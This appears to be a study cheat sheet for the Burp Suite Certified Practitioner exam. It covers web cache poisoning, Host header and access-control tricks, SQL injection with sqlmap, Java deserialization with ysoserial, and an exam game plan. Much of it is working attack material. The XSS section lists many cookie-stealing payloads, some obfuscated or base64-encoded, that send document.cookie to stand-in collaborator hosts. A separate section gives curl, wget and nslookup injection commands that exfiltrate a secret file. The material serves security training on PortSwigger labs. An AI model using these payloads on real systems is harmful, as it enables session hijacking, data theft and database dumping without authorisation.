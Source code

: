 # Resources
- [botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/README.md)
- [DingyShark/BurpSuiteCertifiedPractitioner](https://github.com/DingyShark/BurpSuiteCertifiedPractitioner?tab=readme-ov-file)
- [micahvandeusen - burp-suite-certified-practitioner-exam-review](https://micahvandeusen.com/burp-suite-certified-practitioner-exam-review/)
# Payload processing
- [Obfuscating attacks using encodings](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings)
# Web Cache
```http
Host: TARGET.net
Host: exploit.net
```
```http
X-Forwarded-Host: EXPLOIT.net
X-Host: EXPLOIT.net
X-Forwarded-Scheme: nohttps
X-Forwarded-Proto: EXPLOIT.net
Origin: EXPLOIT.net
```
```http
GET /?utm_content='/><script>document.location="https://OASTIFY.COM?c="+document.cookie</script>
```
# Host Header
- Check if the Host header is validated
```http
X-Forwarded-Host: EXPLOIT.net
X-Host: EXPLOIT.net
X-Forwarded-Server: EXPLOIT.net
```
# Brute Force
- Cluster bomb
- Long password, right/wrong user
- Subtle response message difference
- Return of a 302
- Protected Login > X-Forwarded-For: 12.13.14.15
# Password Reset
- Refresh password (Stage 1)
- Current password - escalate privileges (Stage 2)
# API and Access Control
- Mass Assignment
- Parameter pollution (url encode special symbols)
- Original URL to admin panel
```http
X-Original-URL: /admin
```
- TRACE method to admin panel to disclose special headers
- Look for Server side prototype pollution
# CORS
- Set Origin header to arbitrary header or null
- Check for anti iframe headers
- Look for Access-Control-Allow-Credentials
- Look for Access-Control-Allow-Origin
# XSS
```html
"-(window["document"]["location"]="https://exploit-server%2eweb-security-academy%2enet/?"+window["document"]["cookie"])-"
"}; window['docu'+'ment']['loc'+'ation']='https://subdomain%2eexploit-server%2enet/?'+(window['docu'+'ment']['coo'+'kie']);//
<script>
location ='https://url.web-security-academy.net/?SearchTerm=%22-%28window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2Fexploit%252eexploit-server%252enet%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D%29-%22';
</script>
fetch("https://url.net/?c="+btoa(document.cookie))
"></select><script>document.location='https://OASTIFY.COM/?domxss='+document.cookie</script>//
</ScRiPt ><img src=a onerror=document.location="https://OASTIFY.COM/?biscuit="+document.cookie>
fetch(`https://OASTIFY.COM/?jsonc=` + window["document"]["cookie"])
"-eval(atob("ZmV0Y2goYGh0dHBzOi8vNHo0YWdlMHlwYjV3b2I5cDYxeXBwdTEzdnUxbHBiZDAub2FzdGlmeS5jb20vP2pzb25jPWAgKyB3aW5kb3dbImRvY3VtZW50Il1bImNvb2tpZSJdKQ=="))-"
If eval is blocked used other alternatives
<><img src=1 onerror=javascript:fetch(`https://OASTIFY.COM?escape=`+document.cookie)>
document.location='https://OASTIFY.COM/?cookies='+document.cookie;
<img src="https://EXPLOIT.net/img">
<script src="https://EXPLOIT.net/script"></script>
<video src="https://EXPLOIT.net/video"></video>
```
- Check: https://github.com/DingyShark/BurpSuiteCertifiedPractitioner/?tab=readme-ov-file#some-useful-bypasses
# SQLi
```bash
sqlmap -u "url" --cookie="cookies" --batch --dbs --random-agent -p "parameter"
sqlmap -u "url" --cookie="cookies" --batch --dbs --random-agent -p "parameter" --proxy="http://127.0.0.1:8080/" --level=3
sqlmap -u "url" --cookie="cookies" --batch -D database -T table --random-agent -p "parameter" --proxy="http://127.0.0.1:8080/" --level=3 --dump
```

# Insecure Deserialization
- Command
```bash
java -jar ysoserial-all.jar [payload] "command"
```
- Base64 encode the payload piping the output to `base64 -w 0`
   - For MacOS use the `gbase64` command which accepts the -w flag

```bash
java -jar ysoserial-all.jar [payload] "command" | gzip -c | base64 -w 0
```
# Command for data exfiltration
```bash
curl --data @/home/carlos/secret subdomain.collaborator.net
wget --post-file /home/carlos/secret subdomain.collaborator.net
&`nslookup -q=cname $(cat /home/carlos/secret).burp.oastify.com`
||nslookup+$(cat+/home/carlos/secret).<collaborator>
`/usr/bin/wget%20--post-file%20/home/carlos/secret%20https://collaborator/`
```
# Game plan
## Quick recon
- Quickly glance at both apps and run "scan selected insertion point" on interesting url parameters
- While the preliminary scans run focus on one web app
- Only switch to the other web app if the scans return a positive result
- Map out all functionalities
- Run a content discovery scan
   - Another option is to instead used ffuf or gobuster
   ```bash
   wget https://raw.githubusercontent.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/main/wordlists/burp-labs-wordlist.txt
   ffuf -c -w ./burp-labs-wordlist.txt -u https://TARGET.web-security-academy.net/FUZZ
   ffuf -u http://kek.com/FUZZ -w /usr/share/dirb/wordlists/big.txt -t 50 -c
   gobuster dir -u http://kek.com -w /usr/share/dirb/wordlists/common.txt
   ```
- Use Burp's browser to look for DOM XSS, Web messages, or Prototype pollution
- Use Param Miner to Probe for different vulnerabilities
    - Web Cache Poisoning
    - Host header injection
- From the "Site map" tab use the "Engagement tools" to gather information
- Follow the information disclosure methodology to find information
- Use the Developer tools to look for event listeners
- Use the HTTP Request Smuggling Probe
- Try Brute Force Issues
- If stage 1 involved user interaction then don't use CSRF or CORS as there is only one active user
- If stage 1 did not involve user interaction then try CSRF or CORS
- Look for password reset issues
## Found a suitable functionality to exploit
- Step through each possible scenario and study how the endpoint behaves under different conditions
- Remember, the payload might work, but it needs to be obfuscated
## Escalated privileges
- Determine what new functionality/privileges the user has gained
- Remember, the payload might work, but it needs to be obfuscated
